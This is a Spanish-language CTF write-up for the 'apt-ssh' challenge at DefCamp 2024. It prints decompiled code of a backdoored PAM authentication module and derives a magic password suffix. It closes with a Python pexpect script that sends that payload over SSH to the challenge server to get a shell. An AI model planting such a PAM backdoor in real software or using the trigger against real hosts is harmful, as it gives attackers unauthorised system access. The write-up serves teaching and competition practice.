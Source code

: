 ```yaml
---
layout: post
title: apt-ssh DefCamp 2024
comments: true
categories: [Pwn, Writeups, DefCamp]
---
```


Este es un reto de la competición de CTF DefCamp 2024, organizada por [DefCamp](https://www.linkedin.com/company/defcamp/?originalSubdomain=es). Este fue uno de los 4 retos de la categoría de PWN, de categoría *easy*.

![Image]({{ site.baseurl }}/images/posts/2024-10-1-Buy-coffee-DefCamp24-CTF-Logo.png)

# Overview

Este reto consistía en una aplicación PAM con una *backdoor* que spawneaba una shell en caso de que la contraseña cumpliera ciertos requisitos. 

# Reconocimiento

Se nos da únicamente una conexión por **SSH** (IP:puerto y credenciales), al conectarnos, se nos imprimen dos archivos encodeados en *base64*, en [cyberchef](https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')&input=WTI5dVptazZaR1Z1ZEdsaGJBPT0&oeol=CR) podemos convertirlo en dos archivos. Uno de ellos, es el que supuestamente tiene una *backdoor*. Podemos inspeccionar con *ghidra*:

```c
undefined4 pam_sm_authenticate(undefined8 param_1)
{
  int iVar2;
  size_t sVar3;
  FILE *__stream;
  char *pcVar4;
  undefined2 local_112;
  char *local_110;
  char *local_108;
  undefined4 local_100;
  undefined2 local_fc;
  undefined2 local_fa;
  undefined local_f8 [16];
  undefined local_e8 [16];
  undefined local_d8 [16];
  undefined local_c8 [16];
  undefined local_b8 [16];
  undefined local_a8 [16];
  undefined4 local_98;
  undefined local_88 [120];
  undefined auVar1 [16];
  
  rand();
  local_98 = 0;
  local_f8 = (undefined  [16])0x0;
  local_e8 = (undefined  [16])0x0;
  local_d8 = (undefined  [16])0x0;
  local_c8 = (undefined  [16])0x0;
  local_b8 = (undefined  [16])0x0;
  local_a8 = (undefined  [16])0x0;
  iVar2 = dfgebrycw();
  if (iVar2 == 0) {
    iVar2 = pam_get_user(param_1,&local_110,"Username: ");
    if (iVar2 == 0) {
      iVar2 = pam_get_authtok(param_1,6,&local_108,0);
      if (iVar2 != 0) {
        return 7;
      }
      iVar2 = dfgebrycw();
      if (iVar2 != 0) {
        return 7;
      }
      send_debug_message(param_1,local_88);
	      iVar2 = strcmp(local_108,"aptssh");                           /*COMPARACION PARA aptssh:aptssh*/
      if (iVar2 == 0) {
        iVar2 = strcmp(local_110,"aptssh");
        if (iVar2 == 0) {
          output_base64_file(param_1,"/lib/security/pam_passfile.so");
          output_base64_file(param_1,"/pam_passfile.o");
          return 0;
        }
      }
      else {                                                           /*COMPARACION ALTERNATIVA*/
        iVar2 = ierubvhcjsx();
        if (iVar2 == 0) {
          iVar2 = dfgebrycw();
          if (iVar2 != 0) {
            return 7;
          }
          pam_casual_auth(&local_112);
          sVar3 = strlen(local_108);
          if (100 < sVar3) {                             /*COMPARA LA LONGITUD DE LA CONTRASEÑA*/
            iVar2 = 7000;
            do {
              iVar2 = iVar2 + -8;
            } while (iVar2 != 0);
            local_100 = 0xadc29ec3;
            local_fa = 0xafc3;
            local_fc = local_112;
            auVar1[0xf] = 0;
            auVar1._0_15_ = local_f8._1_15_;
            local_f8 = auVar1 << 8;
            iVar2 = memcmp(local_108 + 100,&local_100,9);  /*COMPARA A PARTIR DEL CARACTER 100 DE LA CONTRASEÑA*/
            if (iVar2 == 0) {
              iVar2 = 10000;
              do {
                iVar2 = iVar2 + -8;
              } while (iVar2 != 0);
              return 0;
            }
          }
          iVar2 = ierubvhcjsx();
          if (iVar2 == 0) {
            __strcpy_chk(local_f8,local_108,100);
            iVar2 = strcmp(local_110,"sshuser");
            if (iVar2 == 0) {
              __stream = fopen("/home/sshuser/pass.txt","r");
              if (__stream == (FILE *)0x0) {
                return 7;
              }
              pcVar4 = fgets(local_f8,100,__stream);
              if (pcVar4 != (char *)0x0) {
                fclose(__stream);
                sVar3 = strcspn(local_f8,"\n");
                local_f8[sVar3] = 0;
                iVar2 = strcmp(local_108,local_f8);
                if (iVar2 != 0) {
                  return 7;
                }
                return 0;
              }
              fclose(__stream);
              iVar2 = 10000;
              do {
                iVar2 = iVar2 + -8;
              } while (iVar2 != 0);
              return 7;
            }
            iVar2 = 10000;
            do {
              iVar2 = iVar2 + -8;
            } while (iVar2 != 0);
          }
        }
      }
    }
  }
  else {
    iVar2 = 10000;
    do {
      iVar2 = iVar2 + -8;
    } while (iVar2 != 0);
  }
  return 10;
}
```

Aquí vemos dos comparaciones principales, la primera, en caso de utilizar las credenciales `aptssh:aptssh`, que nos dará los archivos que tenemos. Además, vemos que en caso de un login correcto, tenemos un código de estado `0` (`return 0;`).

En la segunda comparación, se comprueba que la longitud de la contraseña sea mayor de 100. Después, se comprueban los carácteres a partir de la posición 100:

```c
if (100 < sVar3) {    /*COMPARA LA LONGITUD DE LA CONTRASEÑA*/
	
	iVar2 = 7000;
	do {
	  iVar2 = iVar2 + -8;
	} while (iVar2 != 0);    /*DELAY*/
	
	local_100 = 0xadc29ec3;
	local_fa = 0xafc3;
	local_fc = local_112;
	auVar1[0xf] = 0;
	auVar1._0_15_ = local_f8._1_15_;
	local_f8 = auVar1 << 8;
	iVar2 = memcmp(local_108 + 100,&local_100,9);  /*COMPARA A PARTIR DEL CARACTER 100 DE LA CONTRASEÑA*/
	if (iVar2 == 0) {
	  iVar2 = 10000;
	  do {
		iVar2 = iVar2 + -8;
	  } while (iVar2 != 0);
	  return 0;
	}
  }
```

Vemos que se comparan 9 bytes del dirección a la que apunta `local_100`, sin embargo, sólo contiene 4 (`0xadc29ec3`). Por tanto, seguirá leyendo las posiciones adyacentes:

```c
undefined4 local_100;
undefined2 local_fc;
undefined2 local_fa;
undefined local_f8 [16];
```

Por tanto, debemos pasar los valores que contendrán dichas variables: `local_100 (4B) + local_fc (2B) + local_fa (2B) + local_f8 (1B)`

```c
void pam_casual_auth(undefined2 *param_1) {
  *param_1 = 0xbec2;
  return;
}
```
> `local_112` se asigna mediante esta función.

# Explotación

De esta forma nos queda un payload como: `100*A + 0xadc29ec3 + 0xbec2 + 0xafc3 + 0x00`. Ya podemos crear un script de *python*, teniendo en cuenta que debemos mandar cada valor en *Little-Endian*:

```python
import pexpect

ssh_host = "34.159.156.124"
ssh_port = 32487
username = "sshuser"
payload = (
    b"a" * 100 +
    b"\xc3\x9e\xc2\xad\xc2\xbe\xc3\xaf"
)

child = pexpect.spawn(f"ssh -p {ssh_port} {username}@{ssh_host}")
child.expect("d:")
child.sendline(payload)
print(child.before.decode("utf-8"))
child.interact()
```

Este es un script creado por [r0-dev-null](https://github.com/r0-dev-null/ctf-writeups/tree/main/DCTF%202024%20Quals), ya que genera una shell más estable de la que logré con pwntools.

El reto en sí no creo que deba categorizarse como PWN sino como reversing, ya que no se ataca una vulnerabilidad de un programa como tal, sino que se resuelve mediante la aplocación de ingeniería inversa al binario.